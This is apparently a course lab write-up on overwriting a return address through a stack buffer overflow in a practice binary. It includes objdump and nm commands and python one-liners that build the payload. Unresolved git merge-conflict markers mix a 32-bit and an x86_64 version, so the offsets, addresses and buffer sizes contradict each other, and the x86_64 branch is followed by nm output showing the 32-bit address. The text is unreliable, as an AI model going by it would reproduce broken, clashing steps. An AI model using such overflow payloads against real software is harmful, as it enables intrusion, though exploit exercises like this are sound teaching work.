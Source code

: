 ```yaml
---
nav_order: 1
parent: 'Task: Overwrite Return Address'
---
```


# Writeup

First use this command to scan the executable:

> ```Bash
> objdump -M intel -d break_this
> ```

- The `main()` function only calls `read_buffer()`.
- This function reads the length of a buffer from standard input into a variable `n`.
- Then it reads the buffer itself (`char buffer[64]`).
- Because `fgets()` reads at most `n - 1` characters, we can set `n` to a value bigger than the length of the buffer, so an overflow may be possible.
<<<<<<< HEAD
- We will set `n` to a large enough value: `100`
- `magic_function()` starts at address `0x080491d6`
- We see that the buffer passed where `fgets()` reads starts at `ebp - 0x58`.
- At the address pointed by `ebp` we find the saved `ebp` which we must skip, followed by the return address that we need to overwrite.
- So we must use `0x58 + 4 = 92` dummy characters `A` and then the address of `magic_function()` in little-endian encoding.

We can find the address of the `magic_function()` using this command:
=======
- We will set `n` to a large enough value: `120`

- `magic_function()` starts at address `0x401176`
- From the first 3 lines from `read_buffer()` we get that: `rbp` gets pushed on the stack, then the stack is extended by `0x60` = `96`
- So we must print `96 + 8 = 104` dummy characters `A` and then the address of `magic_function()` in little-endian encoding
>>>>>>> 8be8dac (labs/lab-10: Add x86_64 version)

```console
student@hsi:/.../overwrite-ret-addr/support$ nm break_this | grep magic_function
080491d6 T magic_function
```

<<<<<<< HEAD
``` Bash
python2.7 -c 'print "100\n" + "A" * 92 + "\xd6\x91\x04\x08"' > payload
=======
However, keep in mind that the stack alignment is 16 bytes for `x64` systems, so the `buffer` variable along with the other four will be aligned to 16 bytes. This is how the variable placement looks like after the stack is aligned:

```c
char buffer[68];                // [rsp+0h] [rbp-60h] BYREF
int n;                          // [rsp+44h] [rbp-1Ch] BYREF
size_t len;                     // [rsp+48h] [rbp-18h]
unsigned int disorienting_var;  // [rsp+54h] [rbp-Ch]
size_t i;                       // [rsp+58h] [rbp-8h]
```

Also make sure to properly pack the address of `magic_function()` in little-endian format (8 bytes). (0x0000000000401176)

``` Bash
python2.7 -c 'print "120\n" + "A" * 104 + "\x76\x11\x40\x00\x00\x00\x00\x00"' > payload
# or
python3 -c 'print("120\n" + "A" * 104 + "\x76\x11\x40\x00\x00\x00\x00\x00")' > payload
>>>>>>> 8be8dac (labs/lab-10: Add x86_64 version)
```
